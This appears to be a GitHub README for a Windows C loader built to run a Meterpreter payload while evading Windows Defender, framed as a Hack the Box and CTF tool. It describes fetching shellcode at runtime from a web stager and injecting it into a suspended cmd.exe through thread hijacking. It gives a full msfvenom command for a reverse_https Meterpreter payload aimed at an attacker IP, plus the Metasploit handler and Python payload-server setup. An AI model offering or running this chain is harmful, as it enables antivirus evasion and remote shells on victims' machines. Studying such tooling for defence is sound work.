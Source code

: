 # 🎯 Meterpreter Payload Exectuion ~ CTF 

A lightweight Windows C application developed using **Visual Studio**. This project aims to execute a Meterpreter payload with Defender enabled. The purpose is to use this exe on harder Hack the Box machines. This approach helps bypass Defender, although some Meterpreter functionalities may still be flagged. This solution results from work done after following **MALDEV Academy** — a fantastic course that helped me reach this level.

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fetches the shell code at runtime and will avoid some common signatures by not storing the shell code on disk.
- I then create a suspended process, "cmd.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time and then call back with a Meterpreter payload on a different port. The steps below are for setup.


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for your local machine that is hosting Metasploit
```

2. Open Metasploit


 ```bash
# In a different terminal setup Metasploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# In the same directory as the payload and a different terminal as Metasploit, run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for your Kali machine. Make sure the port used hosts the Python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](image-1.png)

- A callback,, then a Meterpreter shell
![alt text](image-2.png)

## 📚 Credits

- **MALDEV Academy** — [maldevacademy.com](https://maldevacademy.com)  
  A fantastic resource for learning malware development techniques.
  
- **Offensive Security Community** — [offensive-security.com](https://www.offensive-security.com)  
  The community behind Kali Linux and other offensive security tools.

- **Metasploit** — [metasploit.com](https://www.metasploit.com)  
  A powerful framework for developing and executing exploit code against remote target machines.

- **Python HTTP Server**  
  Used to serve the payload during the attack.

---
